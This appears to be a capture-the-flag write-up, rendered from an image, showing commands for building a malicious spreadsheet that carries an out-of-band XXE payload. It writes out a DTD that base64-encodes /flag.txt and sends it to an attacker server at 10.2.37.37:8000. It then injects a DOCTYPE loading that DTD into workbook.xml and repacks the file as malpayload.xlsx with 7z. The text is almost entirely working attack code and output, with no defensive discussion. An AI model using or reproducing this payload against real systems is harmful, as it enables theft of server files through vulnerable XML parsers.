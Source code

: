 `ls -lsa XXE/xl`

```jsx
total 32
4 drwxr-xr-x 5 root root 4096 Dec 20 07:28 .
4 drwxr-xr-x 5 root root 4096 Dec 20 07:28 ..
4 drwxr-xr-x 2 root root 4096 Dec 20 07:28 _rels
8 -rw-r--r-- 1 root root 4451 Dec 20  2024 styles.xml
4 drwxr-xr-x 2 root root 4096 Dec 20 07:28 theme
4 -rw-r--r-- 1 root root  878 Dec 20  2024 workbook.xml
4 drwxr-xr-x 2 root root 4096 Dec 20 07:28 worksheets
```

`nano malxml.dtd`

```jsx
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM'http://10.2.37.37:8000/malxml.dtd?%data;'>">
```

`nano XXE/xl/workbook.xml`

```jsx
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://10.2.37.37:8000/malxml.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>

<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships"><fileVersion appName="Calc"/><workbookPr backupFile="false" showObjects="all" date1904="false"/><workbookProtection/><bookViews><workbookView showHorizontalScroll="true" showVerticalScroll="true" showSheetTabs="true" xWindow="0" yWindow="0" windowWidth="16384" windowHeight="8192" tabRatio="500" firstSheet="0" activeTab="0"/></bookViews><sheets><sheet name="Sheet1" sheetId="1" state="visible" r:id="rId3"/></sheets><calcPr iterateCount="100" refMode="A1" iterate="false" iterateDelta="0.001"/><extLst><ext xmlns:loext="http://schemas.libreoffice.org/" uri="{7626C862-2A13-11E5-B345-FEFF819CDC9F}"><loext:extCalcPr stringRefSyntax="CalcA1"/></ext></extLst></workbook>
```

`7z u malpayload.xlsx`

```jsx
7-Zip 24.08 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-08-11
 64-bit locale=en_US.UTF-8 Threads:7 OPEN_MAX:1024

Open archive: malpayload.xlsx
--
Path = malpayload.xlsx
Type = zip
Physical Size = 5071

Scanning the drive:
7 folders, 16 files, 179081 bytes (175 KiB)

Updating archive: malpayload.xlsx

Keep old data in archive: 9 files, 13056 bytes (13 KiB)
Add new data to archive: 7 folders, 16 files, 179081 bytes (175 KiB)

                              
Files read from disk: 16
Archive size: 107968 bytes (106 KiB)
Everything is Ok
```
